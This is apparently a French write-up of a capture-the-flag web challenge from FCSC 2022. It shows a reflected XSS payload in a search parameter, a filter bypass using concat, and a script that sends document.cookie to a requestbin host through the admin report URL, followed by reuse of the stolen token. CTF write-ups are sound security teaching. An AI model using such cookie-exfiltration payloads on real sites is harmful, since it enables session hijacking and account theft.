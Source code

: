 <h1>Gare au gorille</h1>

<p>On test dans un premier temps le champs search :</p>

> https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert(1)</script> <br/>



![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20160319.png?raw=true "alert")

<br/>
<br/>
Cela fonctionne on test donc simplement : <br/>
Je crée une request bin https://requestbin.net 

<script>document.location= urlrequestbin?= + document.cookie </script>
<br/>
Cela ne marche pas après plusieurs test on se rend compte que les '+' et les ';' ne fonctionne pas. Pour contourner le problème je fais donc une recherche type javascript concat fonction et je tombe bien sur une fonction concat et modifie mon payload en conséquense : <br/> 


  <script>document.location="".concat('urlrequestbin?=', document.cookie)</script> 
</br>
On recupère notre propre token, on envoie donc la payload à l'admin par l'url de report : <br/> 

> https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<script>document.location="".concat(%27http://urlrequestbin?=%27,%20document.cookie)</script> <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20162522.png?raw=true "token") <br/>

On set maintenant le token dans notre cookie dans le header : <br/>

> Cookie: token=O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45 <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20163109.png?raw=true "flag")







